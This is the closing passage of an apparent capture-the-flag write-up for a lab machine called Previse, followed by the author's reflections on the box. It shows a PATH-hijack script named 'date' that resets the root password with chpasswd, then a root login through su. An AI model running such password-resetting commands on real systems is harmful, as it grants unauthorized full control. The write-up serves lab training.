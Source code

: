 ```bash
$ cat /home/m4lwhere/date

> #!/bin/bash
echo 'root:root' | sudo chpasswd
```

We can then login to root directly:

```bash
$ su root
Password:

root@previse:~ whoami
root
```

## Final notes:

Overall the box was very interesting and brought a lot of concepts to the hacker. The most difficult part was not falling into the inital rabbit holes that the box creator @m4lwhere put in place during the foothold phase. If I could change a thing about the box, it would be change the User privesc to something less time consuming. Cracking the hash did not take that long for me, but speaking with some other hackers, it took close to half an hour for some.